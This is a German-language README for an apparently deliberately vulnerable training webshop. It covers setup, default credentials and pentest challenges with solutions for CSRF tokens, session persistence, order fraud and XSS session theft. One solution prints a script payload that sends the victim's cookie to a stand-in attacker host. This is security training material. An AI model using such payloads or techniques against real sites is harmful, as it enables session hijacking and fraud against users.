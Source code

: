 [![Docker](https://github.com/BenjiTrapp/Project-Makalu/actions/workflows/docker-publish.yml/badge.svg)](https://github.com/BenjiTrapp/Project-Makalu/actions/workflows/docker-publish.yml)

# Project [Makalu](https://de.wikipedia.org/wiki/Makalu) - An unsecure Webshop with an intentional broken Session Handling
Im Zuge des neuen Online Shops der **anna group** wird auch ein neues Session Handling benötigt. Der hier vorliegende 
Code steht kurz vor dem produktiven Livegang. Trotz der rapiden Entwicklung machen sich erhebliche Zweifel breit, ob
 nicht etwas wichtiges vergessen wurde?

### Motivation
Moderne WebApps verfügen teilweise über eine enorme Komplexität. Um den Kunden vor mögliche Angriffe zu schützen, benötigen unter anderem Requests die an eine WebApp gestellt werden eine Login-Session. Ein Request benötigt üblicherweise die Daten aus einer 
vorherigen Response (bspw. CSRF tokens). Die empfangenen Daten in einem Teilrequest, können auch einige Requests später noch 
benötigt werden wie zum Beispiel während des Checkout Prozesses. Dies macht den Einsatz von "unique" Namen/IDs während der Erstellung eines Requests notwendig. 
 
**Randbemerkung**: Das Fuzzing bspw. im Kontext eines CSRF tokens, erzeugt eine Vielzahl von Daten sowie Aufrufe innerhalb der WebApplikation. Dadurch kann im Falle eines Angriffs, die Performance der gesamten Applikation beeinträchtigen. Die Performance selbst,
steht in diesem Penetrationtests NICHT im Fokus, kann aber je nach gewählter Fuzzing-Methode zu einem "Problem" für den Angriff werden. 

## Problemstellung:
 Helfe der **anna group** durch einen Penetrationtest die Sicherheit des Session Handlings zu prüfen. Um diesen Wunsch
 nachzukommen muss zunächst die Applikation installiert und betriebsbereit gemacht werden. Hierbei hilft 
 sicherlich folgende Anleitung weiter:
 
## Installation & starten der WebApp
1. mittels Docker
     ```
     1. ``$ docker pull nyctophobia/project-makalu``
     2. ``$ docker run -d -p 4711:4711 nyctophobia/project-makalu``
     3. Öffne im Browser: "http://localhost:4711"
     ```
2. mittels Docker Compose
     ```
     1. Git repository pullen von GitHub (git pull https://github.com/BenjiTrapp/Project-Makalu.git)
     2. In das Verzeichnis Wechseln
     3. ``docker-compose up``
     4. Öffne im Browser: "http://localhost:4711"
     ```
3. Lokal in der IDE
     ```
     1. Die Datei https://github.com/BenjiTrapp/Project-Makalu/blob/master/ProjectMakaluApp.py editieren: 
            Host in der Main Methode von 0.0.0.0 auf 127.0.0.1 abändern
     2. Editierte Main-Methode starten in der IDE z.B. PyCharm
     ```

#####  [Credentials](https://www.heise.de/security/meldung/hallo-ist-meistgenutztes-deutsches-Passwort-auf-Platz-zehn-steht-ficken-3579567.html): user/hallo

## Durchführung des Penetrationtests
Für den Test existiert folgende Use Cases. Zur Durchführung des Penetrationtests kann das File 
"/doc/Burp.burp-projectopts.json" mittels [Burp](https://portswigger.net/burp/freedownload/) als Projekt 
geladen werden. In der JSON-Datei sind alle "session handling rules" enthalten, um die nachfolgenden Challenges
zu lösen. Die Challenges können natürlich auch mit anderen Tools wie bspw. OWASP ZAP gelöst werden.

#### Use Case: Bau dir einen eigenen CSRF Token
```
[Challenge]: Der Übertragene CSRF Token muss übereinstimmen und mit jedem POST Request übertragen werden

[Lösung]:
* Capture des Requests von einem bestehenden CSRF Token
* Erstelle eine "Run a Macro" session handling Regel
    * Der Scope liegt auf den Parameter des CSRF Tokens
    * Update den CSRF Token NUR im aktuell gestellten Request
```

#### Use Case: Übernehme die Session eines anderen Users mittels [XSS-Lücke](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)

```
[Challenge]: Finde ein Eingabefeld, dass eine XSS-Lücke enthält und klaue damit die Session eines ahnungslosen Opfers

[Lösung]:
* Platziere an einer geeigneten Stelle ein inline JavaScript wie beispielsweise: 
    <script>window.location="http://evil.ru/?cookie=" + document.cookie;</script> 
* Extrahiere den erbeuteten Cookie aus dem Request und übernehme die Session 
```

#### Use Case: Behalte die Login-Session offen
```
[Challenge]: Mit einer Wahrscheinlichkeit von 5% beenden WebApplikationen die Login-Session

[Lösung]:
* Capture des Login-Requests in einem Makro
* Erstelle eine "Check Session is Valid" Regel
    * Erstelle einen Request
    * Prüfe den Response-Body nach einem Benutzernamen für die gültige Session
    * Alternativ: Prüfe die Umleitung der Login-URL (die Session muss für diesen Fall invalide sein)
    * Spiele das aufgezeichnete Makro ab bei der Invalidierung der Session
```
    
#### Use Case: Begehe Bestellbetrug 
```
[Challenge]: Führe multiple Requests durch bis die finale Bestellbestätigung erscheint

[Lösung]:
* Führe alle Requests durch bis einer mit Hilfe eines Makros gefuzzed werden kann.
* Finalisiere den Bestellbetrug mit einem "Run a Post-Request Macro", dass den aktuellen Request zurück gibt
* Definiere einen engen Definitionsbereich (URL, Parameter)
```

#### Use Case: Löschen von Eingefügten Daten
```
[Challenge]: Aktuell sind nur drei Einträge erlaubt. Um dies etwas gerechter zu machen, soll die "add" 
Funktionalität gefuzzed werden

[Lösung]:
* Lösche nachträglich gerade hinzugefügte Notizen 
    * Erstelle ein POST-request Makro, dass die Object ID extrahiert und anschließend den Löschvorgang anstößt.
```
